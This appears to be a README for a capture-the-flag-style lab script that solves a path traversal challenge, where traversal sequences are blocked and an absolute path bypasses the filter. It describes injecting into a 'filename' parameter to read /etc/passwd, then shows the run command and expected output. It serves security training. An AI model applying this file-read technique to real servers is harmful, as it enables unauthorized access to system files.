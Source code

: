 # Hack Steps

1. Inject payload into 'filename' query parameter to retrieve the content of /etc/passwd 
2. Extract the first line as a proof


# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python file_path_traversal_traversal_sequences_blocked_with_absolute_path_bypass.py
```

# Expected Output

```
⟪#⟫ Injection parameter: filename
⦗1⦘ Injecting payload to retrieve the content of /etc/passwd.. OK
⦗2⦘ Extracting the first line as a proof.. OK => root:x:0:0:root:/root:/bin/bash
🗹 The lab should be marked now as solved
```
